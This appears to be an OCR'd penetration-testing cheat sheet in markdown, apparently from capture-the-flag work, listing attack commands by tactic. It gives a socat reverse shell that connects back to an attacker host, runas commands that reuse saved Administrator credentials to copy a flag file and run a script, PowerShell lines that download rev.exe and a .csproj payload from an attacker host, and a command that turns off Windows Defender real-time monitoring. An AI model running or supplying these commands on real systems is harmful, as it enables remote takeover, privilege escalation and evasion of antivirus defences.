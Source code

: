 
# socat
- serivce: all
- tactics: command_and_control

# reverse_shell
## attacker
- ``socat file:`tty`,raw,echo=0 tcp-listen:12345``

## target:
- `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:attacker-ip:12345"`

---

# runas
- serivce: windows
- tactics: privilege_escalation

## privileged file copy
- `runas /user:hostname\Administrator /savecred "cmd.exe /c type c:\users\administrator\desktop\root.txt > C:\Users\security\AppData\Local\Temp\root.txt"`

## privileged powershell execution
- `runas /user:hostname\Administrator /savecred "powershell -ExecutionPolicy Bypass -File C:\Users\security\AppData\Local\Temp\boom.ps1"`

## privileged cmd execution
- `runas /user:administrator /savecreds cmd.exe`

---

## powershell
- serivce: windows
- tactics: execution

### powershell upload
- `powershell Invoke-WebRequest "http://attacker-ip:81/x41.csproj" -OutFile "C:\ProgramData\x41.csproj"`
- `powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -Command "(New-Object System.Net.WebClient).DownloadFile('http://attacker-ip/rev.exe', 'C:\ProgramData\')"`

### powershell disable av 
- `Set-MpPreference -DisableRealtimeMonitoring $true`

---